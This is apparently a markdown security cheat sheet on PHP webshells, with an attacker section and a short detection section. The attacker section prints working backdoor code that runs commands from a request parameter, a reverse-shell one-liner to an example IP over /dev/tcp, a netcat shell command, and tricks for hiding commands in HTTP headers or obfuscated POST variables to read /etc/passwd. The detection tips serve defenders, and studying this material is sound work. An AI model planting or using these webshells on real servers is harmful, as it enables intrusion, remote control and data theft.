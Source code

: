 # RedTeam

## Characteristic
- Script, which is written in language of target web server
   - PHP
   - Python
   - Ruby
   - Perl
   - ASP (Active Server Page)
   - Unix Shell Script
- Uploaded to enable remote access of the machine
- Servers that only host internal resources are also at risk
- Communication is simply over HTTP
- Usually installed via:
   - Document/file upload pages
   - Local File Include (LFI): Put webshell in page of webapp
   - Cross-site scripting (XSS)
   - Exposed Admin Interface (e.g. OWA/Outlook Web App, EAS/Exchange ActiveSync)
 
## Return list of dangerous enabled functions
```
<?php

//print_r = print variable information in readable form

print_r(preg_grep("/^(system|exec|shell_exec|passthru|proc_open|popen|curl_exec|curl_multi_exec|parse_ini_file|show_source)$/", get_defined_functions(TRUE)["internal"]));
?>
```

## Typical Webshell Commands
- `<?php system("whoami"); ?>`
- `<?php exec("whoami"); ?>`: Executes but returns nothing
- `<?php echo exec("whoami"); ?>`
- `<?php exec("whoami", $array); print_r($array); ?>`: Executes, returns output in array
- `<?php echo shell_exec("whoami"); ?>`: Executes, returns string
- `<?php passthru ("whoami"); ?>`: Executes, returns raw format
- ```<?php echo "<pre>`whoami`</pre>"); ?>```
- `<?php system($_GET['c']);?>`: www.example.com/demo/shell.php?c=whoami

## Example Webshells
```
<?php

// 1) Upload backdoor.php on web server
// 2) Enter URL --> http://example.com/backdoor.php?c=nc -e /bin/sh 10.10.10.7 4444

if(isset($_REQUEST['c'])){
        echo "<pre>";
        $c = ($_REQUEST['c']);
        system($c);
        echo "</pre>";
        die;
}
?>
```

- One liner: `<?php exec("/bin/bash -c 'bash -i > /dev/tcp/10.0.0.10/1234 0>&1'"); ?>`
    - This webshell invokes an interactive bash shell 
    - Shell traffic is routed to attacker machine with example IPv4 10.0.0.10 at port 1234
    - `0>&1` = STDIN is redirected to STDOUT

## Hide Webshell Traffic
1. `<?php system($_SERVER['HTTP_USER_AGENT'])?>`: Modify HTTP_USER_AGENT accordingly
2. `<?php system($_SERVER['HTTP_ACCEPT_LANGUAGE']); ?>`: Hide traffic along with uncommon parameter HTTP_ACCEPT_LANGUAGE
3. `<?php $_=$_POST['1'];  $__=$_POST['2']; $_($__); ?>`
    - Send POST request with variable '1' = 'system' and variable '2' = 'cat /etc/passwd'
    - The term `$_($__)` becomes then `system('cat /etc/passwd')`

<br />

# BlueTeam

## How to Detect
- Web serve Access/Error logs
- Notice of unusual timestamps
- Search for common strings in files or filenames (passthru|exec|eval...)
- Webshell signature scanner
- Search for very long strings, which may indicate encoding
- Search for files that were modified in the recent X days
   - `find -name '*.php' -mtime -1 -ls`
- Search for htaccess modification (false filename-extension mapping)
   - `addType application/x-httpd-php .htaccess`
   - `addType application/x-httpd-php .jpg`
